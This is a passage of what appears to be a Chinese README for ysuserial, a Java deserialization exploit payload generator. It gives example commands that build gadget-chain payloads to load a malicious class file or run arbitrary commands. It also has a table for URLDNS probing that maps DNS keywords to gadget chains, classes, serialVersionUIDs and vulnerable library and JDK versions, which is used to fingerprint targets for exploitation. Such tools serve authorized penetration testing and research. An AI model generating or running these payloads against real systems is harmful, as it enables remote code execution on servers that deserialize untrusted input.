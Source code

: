 示例：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections3 -p LF-/tmp/evil.class
```

效果图：

![image-20220619004500004](images/image-20220619004500004.png)

### 普通命令执行

最后是普通的执行命令，直接输入待执行的命令即可。

**普通命令执行示例**：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsBeanutils2 -p 'open -a Calculator.app'
```

效果图：

![image-20220618223134650](images/image-20220618223134650.png)

## URLDNS 探测目标类

为了解决有反序列化利用点但是无链可用的状态，本项目提供了基于 URLDNS 探测目标类的功能。这条链会根据目标环境中不同的类是否存在来判断系统环境、依赖版本，主要包含如下表格中的内容：

| DNSLOG 关键字                               | 对应链                  | 关键类                                                       | 备注                                                         |
| ------------------------------------------- | ----------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| cc31or321<br />cc322                        | CommonsCollections13567 | org.apache.commons.collections.functors.ChainedTransformer<br />org.apache.commons.collections.ExtendedProperties$1 | CommonsCollections1/3/5/6/7<br />需要<=3.2.1版本             |
| cc40<br />cc41                              | CommonsCollections24    | org.apache.commons.collections4.functors.ChainedTransformer<br />org.apache.commons.collections4.FluentIterable | CommonsCollections2/4链<br />需要4-4.0版本                   |
| cb17<br />cb18x<br />cb19x                  | CommonsBeanutils2       | org.apache.commons.beanutils.MappedPropertyDescriptor\$1<br />org.apache.commons.beanutils.DynaBeanMapDecorator\$MapEntry<br />org.apache.commons.beanutils.BeanIntrospectionData | 1.7x-1.8x为-3490850999041592962<br />1.9x为-2044202215314119608 |
| c3p092x<br />c3p095x                        | C3P0                    | com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase<br />com.mchange.v2.c3p0.test.AlwaysFailDataSource | 0.9.2pre2-0.9.5pre8为7387108436934414104<br />0.9.5pre9-0.9.5.5为7387108436934414104 |
| ajw                                         | AspectJWeaver           | org.aspectj.weaver.tools.cache.SimpleCache                   | AspectJWeaver,需要cc31                                       |
| bsh20b4<br />bsh20b5<br />bsh20b6           | bsh                     | bsh.CollectionManager\$1<br />bsh.engine.BshScriptEngine<br />bsh.collection.CollectionIterator\$1 | 2.0b4为4949939576606791809<br />2.0b5为4041428789013517368<br />2.0.b6无法反序列化 |
| groovy1702311<br />groovy24x<br />groovy244 | Groovy                  | org.codehaus.groovy.reflection.ClassInfo\$ClassInfoSet<br />groovy.lang.Tuple2<br />org.codehaus.groovy.runtime.dgm\$1170 | 2.4.x为-8137949907733646644<br />2.3.x为1228988487386910280  |
| becl                                        | Becl                    | com.sun.org.apache.bcel.internal.util.ClassLoader            | JDK<8u251                                                    |
| Jdk7u21                                     | Jdk7u21                 | com.sun.corba.se.impl.orbutil.ORBClassLoader                 | JDK<=7u21                                                    |
| JRE8u20                                     | JRE8u20                 | javax.swing.plaf.metal.MetalFileChooserUI\$DirectoryComboBoxModel\$1 | 7u25<=JDK<=8u20<br />这个检测不完美,8u25版本以及JDK<=7u21会误报<br />可综合Jdk7u21来看 |
| linux<br />windows                          | winlinux                | sun.awt.X11.AwtGraphicsConfigData<br />sun.awt.windows.WButtonPeer | windows/linux版本判断                                        |
|                                             | all                     |                                                              | 全部检测                                                     |

本项目参考了 kezibei 师傅的 URLDNS 项目，实际情况可能有如下几种情况导致问题：

- 反序列时遇到黑名单，可能导致后面的类的 dnslog 出不来；
- 反序列化流程中由于种种情况报错可能导致出不来。
